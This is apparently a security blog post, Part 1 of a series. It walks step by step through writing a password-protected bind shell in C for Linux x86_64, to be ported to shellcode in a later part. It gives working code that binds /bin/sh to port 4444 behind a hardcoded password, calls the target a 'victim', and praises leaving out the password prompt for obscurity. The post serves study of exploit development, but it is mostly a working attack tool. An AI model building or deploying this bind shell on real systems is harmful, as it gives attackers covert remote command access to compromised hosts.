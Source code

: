 title: "Writing a password protected bind shell in C"
date: 
categories:
  - blog

The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.
To accomplish this goal, we need to take this process through 3 parts:
Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.
Secondly, the C code needs to be ported to x86_64 Assembly code.
Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.
This blog post will consist of two parts:
Part 1 - Writing a password protected bind shell in the C Programming Language
Par 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode
 PART 1 - Writing a password protected bind shell for Linux in C
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.
What is a Bind Shell?
A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.
Creating the Bind Shell
In the process of creating a bind shell, we will be stepping through 7 stages:
Creating a new socket
Binding the newly created socket to a port
Listen for incoming connections on the newly created socket
Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.
Wait for input (password) to be received and compare it against the correct password string
Spawn the shell, if password is correct
So let's get started in coding out the 7 stages.
Stage 1 - Creating a new socket
The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```C
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. Referring to the man page for socket, it requires 3 arguments:
Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)
Communication Type - We will use SOCK_STREAM (TCP)
The third argument does not concern us so we will only pass 0
sock = socket(AF_INET, SOCK_STREAM, 0);
The return value for the above syscall will be a file descriptor for the new socket.
Stage 2 - Binding the newly created socket to a port
In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:
The socket to bind to - We will use our new socket "sock"
Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.
Length of the data structure passed in argument 2. This was declared during the skeleton code stage.
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
Stage 3 - Listen for incoming connections on the newly created socket
The listen syscall accepts 2 arguments:
File descriptor of new socket in Stage 1
Backlog - Maximum number of pending connections in the queue 
listen(sock, 2);
Stage 4 - Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
For this stage we will wait for connections on our newly created socket, using the accept syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.
The accept syscall takes 3 arguments:
The socket we are listening on
Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. 
Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code. 
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
The return value of the accept syscall is a new file descriptor pointing to the newly created socket.
Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities
For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
Stage 6 - Wait for input (password) to be received and compare it against the correct password string
Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.
The read syscall accept 3 arguments:
File descriptor of our newly created socket
Buffer - was assigned at the variables section of the code
Number of bytes to read from the file descriptor into the buffer
We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
Stage 7 - Spawn the shell, if password is correct
So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.
The execve syscall executes a program using:
Pathname of the executable or script to run
A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable
Environmental variables for use by the program - We set this to NULL as we are not concerned with this
execve(arguments[0], &arguments[0], NULL);
Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.
The code for the password protected bind shell can be found here.
I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.
In PART 2 we will be discussing how to port all of the above to x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
